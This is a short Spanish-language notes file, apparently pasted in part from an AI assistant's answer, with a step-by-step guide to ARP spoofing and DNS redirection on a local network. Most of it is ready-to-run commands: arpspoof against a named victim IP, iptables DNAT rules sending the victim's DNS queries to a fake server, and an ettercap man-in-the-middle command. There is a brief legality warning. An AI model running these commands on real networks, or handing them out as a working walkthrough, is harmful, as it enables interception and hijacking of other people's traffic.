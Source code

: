# Notas

## ARP Spoofing
Para redirigir el tráfico correctamente, habilita el reenvío de paquetes en tu máquina:

mira iptables y tablas arp
```
janrax@janrax-Legion-5-15ACH6H:~$ sudo iptables --flush
janrax@janrax-Legion-5-15ACH6H:~$ sudo iptables -S

arp -n
```




```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

```bash
sudo apt install dsniff

```

El ataque ARP spoofing engaña a un dispositivo para que asocie una dirección IP con una dirección MAC falsa. A continuación, te explico cómo puedes realizar un ARP spoofing en Kali Linux para engañar a la máquina en la red.

### **ADVERTENCIA**
El uso de técnicas de ARP spoofing es ilegal si no tienes permiso explícito para realizarlas. Realiza estos pasos únicamente en redes de prueba o con el consentimiento de los administradores de la red.

---

### **Pasos para Realizar ARP Spoofing**

#### 1. **Configurar IP Forwarding**
Para redirigir el tráfico correctamente, habilita el reenvío de paquetes en tu máquina:
```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

#### 2. **Identificar las Direcciones IP y MAC**
- IP del objetivo: `192.168.1.67`
- Dirección IP falsa de DNS que quieres usar: `192.168.1.62`
- Dirección IP real del DNS (gateway): `192.168.1.1`

Verifica las direcciones IP y las MAC utilizando `arp-scan` o `nmap`:
```bash
sudo arp-scan --localnet
```

#### 3. **Instalar y Usar `arpspoof`**
El paquete `dsniff` incluye `arpspoof`. Si no lo tienes instalado, instálalo con:
```bash
sudo apt install dsniff
```

Luego, ejecuta `arpspoof` para engañar al objetivo:
```bash
sudo arpspoof -i eth0 -t 192.168.1.67 192.168.1.1
```
Esto hará que la máquina `192.168.1.67` piense que el gateway está asociado a tu dirección MAC.

#### 4. **Redirigir el Tráfico DNS**
Para redirigir el tráfico DNS al servidor falso (`192.168.1.62`), puedes usar `iptables` para redirigir las solicitudes DNS (puerto 53):
```bash
sudo iptables -t nat -A PREROUTING -p udp --dport 53 -j DNAT --to-destination 192.168.1.62
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```

#### 5. **Comprobar la Redirección**
En la máquina de la víctima (`192.168.1.67`), verifica que el DNS esté siendo redirigido a `192.168.1.62`. Usa herramientas como:
```bash
nslookup example.com
```

Si todo está configurado correctamente, las solicitudes DNS desde la máquina víctima se resolverán en el servidor falso.

#### 6. **Desactivar ARP Spoofing y Limpiar las Reglas**
Cuando termines, detén `arpspoof` con `Ctrl + C` y limpia las reglas de `iptables`:
```bash
sudo iptables -t nat -F
sudo echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
```

---

### **Opcional: Usar `ettercap` para ARP Spoofing**
Otra herramienta útil es `ettercap`, que incluye funciones integradas para ARP spoofing y DNS redirección.

1. **Ejecuta ettercap en modo texto:**
   ```bash
   sudo ettercap -T -i eth0 -M arp:remote /192.168.1.67/ /192.168.1.1/
   ```

2. **Configura un archivo de DNS spoofing**:
   Edita `/etc/ettercap/etter.dns` para incluir tus dominios personalizados.

---

Si necesitas ayuda con scripts o configuraciones avanzadas, ¡avísame!


## Arrancar servidor web local con python

```sh
sudo python3 -m http.server 80
```